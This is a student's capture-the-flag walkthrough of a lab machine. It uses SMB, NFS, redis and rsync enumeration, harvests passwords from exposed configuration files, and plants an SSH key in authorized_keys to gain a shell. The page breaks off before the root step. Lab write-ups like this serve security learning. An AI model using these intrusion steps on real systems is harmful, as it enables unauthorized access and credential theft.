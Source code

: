 ```yaml
---
layout: page
title: OWASP Top 10
permalink: /CSCI24/OWASPTop10/
---
```


---

[CSCI 24 Directory](https://zacvr.github.io/CSCI24/)
<br/>

---
<br/>


Task 1
---

Lets start with a nmap scan shall we?

```nmap -sC -sV 10.10.106.247```

<img src="/images/CSCI24/OWASPTop10/Task 1 Q1.png">

we have quite a few posibilities so lets see if metaspolit sees anything

Since we see some SMB shares lets try for that

lets add the IP to our host file with

```sudo nano /etc/hosts```

I named it VulnInternal

```smbmap -H VulnInternal```

<img src="/images/CSCI24/OWASPTop10/Task 1 Q1.5.png">

We see a share named "shares" lets look into it shall we?

```smbmap -H VulnInternal -u root -R```

Now we neet to "get" the file suspiciously named "services.txt"

<img src="/images/CSCI24/OWASPTop10/Task 1 Q1.6.png">

```smbget -R smb://VulnInternal/shares/temp/services.txt```

Lets cat that file

```cat services.txt```

<img src="/images/CSCI24/OWASPTop10/Task 1 Q1.7.png">

What is the services flag? (services.txt)

***THM{0a09d51e488f5fa105d8d866a497440a}***
---

Port 2049 looks different

a quick search [Here](https://blog.christophetd.fr/write-up-vulnix) shows that we can look into NFS shares

```showmount -e VulnInternal```

<img src="/images/CSCI24/OWASPTop10/Task 1 Q1.7.png">

We can copy this into a new directory to look into the results

```mkdir VulnInternal```

```sudo mount -t nfs VulnInternal:/opt/conf VulnInternal```
```cd VulnInternal```
lets see if we can find anything with grep

```grep -R pass```

<img src="/images/CSCI24/OWASPTop10/Task 1 Q2.png">

After some googling and finding what redis was I found that we need a tool to try and work with it

```sudo apt install redis-tools```

Lets try to get in with that password we found

```redis-cli -h VulnInternal -a B65Hx562F@ggAZ@F```

```info```

<img src="/images/CSCI24/OWASPTop10/Task 1 Q2.5.png">

Now at the bottom we see a key space that we can look into further

```keys *```

Key #3 is "internal flag"

```get "internal flag"```


What is the internal flag? ("internal flag")

***THM{ff8e518addbbddb74531a724236a8221}***


```type authlist```

I learned from a write up about lrange

```lrange authlist 1 99999```

"QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="

is written 3 times and is most likely base64

<img src="/images/CSCI24/OWASPTop10/Task 1 Q3.png">

looks like we are going to use rysnc as well (password: Hcg3HP67@TW@Bc72v)

```rsync rsync://rsync-connect@VulnInternal/```

There is a folder named files lets look into it

```rsync rsync://rsync-connect@VulnInternal/files```

```rsync rsync://rsync-connect@VulnInternal/files/sys-internal/```

lets look into the txt file

it didn't want to save itn oa nromal folder so I moved it to the tmp

```cd /tmp```

```sudo rsync rsync://rsync-connect@VulnInternal/files/sys-internal/user.txt user.txt -v```

```sudo cat user.txt```

What is the user flag? (user.txt)

***THM{da7c20696831f253e0afaca8b83c07ab}***


What is the root flag? (root.txt)

A walkthrough taught me that rysnc can pull and push files such as a new SSH key!

ssh-keygen (to create a key in tmp named VulnKey)

```rsync id_rsa.pub rsync://rsync-connect@VulnInternal/files/sys-internal/.ssh/authorized_keys```

Lets make sure our key was put in the folder

```rsync rsync://rsync-connect@internal.thm/files/sys-internal/.ssh/```

```ssh sys-internal@VulnInternal -i id_rsa```

after rooting aroudn there is a fodler named TeamCity

the reame shows us how to run a file


***

